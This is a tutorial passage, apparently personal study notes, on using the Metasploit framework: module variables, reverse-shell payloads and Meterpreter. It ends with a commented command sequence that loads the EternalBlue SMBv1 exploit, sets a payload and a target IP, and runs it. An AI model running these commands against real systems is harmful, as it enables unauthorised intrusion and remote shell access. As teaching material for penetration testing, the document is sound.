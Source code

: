We use the `use <MODULE>` command to load a module, which creates a local context to define variables.  
Each module defines a set of variables that can be optional or mandatory, and can have or not a default value.  
These variables can be displayed with the `show options` command when the module is loaded.  
Some common variables used by various modules are :
- `RHOSTS` (remote hosts) : target IP, IP range, network address (CIDR notation) or file containing targets
- `RPORT` (remote port) : port on the target system
- `PAYLOAD` : payload to use in the exploit
- `LHOST` (local host) : the attacking machine address
- `LPORT` (local port) : the port on the attacking machine
- `SESSION` : session ID created by Metasploit after a successful connection to a target system, used by post-exploitation modules

Modules usually come with a default payload, the action that is performed once the exploit gave access to the target.  
The default payload is usually `reverse_tcp` that opens a shell (Meterpreter, bash or cmd) on the target machine.  
We can see other available payloads, including different types of reverse shells, with `show payloads`, and set one with `set payload PAYLOAD_ID` 

The prompt allows us to distinguish among the possible shells in Metasploit :
- normal shell out of Metasploit
- top-level Metasploit shell
- shell with the context of a loaded module
- Meterpreter shell : Metasploit payload offering a shell on the target system
- target system shell : we may have a common cmd or bash shell on the target system

```shell
# list all types of objects we can list with the show command
help show

# show global options, or module-level options if a module is loaded
show options

# list all exploit modules in Metasploit
show exploits

# search available modules for a keyword, target system or CVE number
search eternalblue  

# display the documentation about module 0 returned in the previous search
info 0

# Load a module for use (EternalBlue exploit targeting SMBv1, leaked in Apr17 and used in WannaCry in May17)
use exploit/windows/smb/ms17_010_eternalblue 

# show payload modules that can be used with the loaded exploit
show payloads

# set a payload to use instead of the default one (using the ID in the "show payloads" output)
set payload 2

# set or unset a variable listed in "show options" for the loaded module
set RHOSTS 10.10.166.19
unset RHOSTS

# set or unset a global variable that will be used for all modules
setg RHOSTS 10.10.166.19
unsetg RHOSTS

# run the exploit (-z to background the session when opened)
exploit
```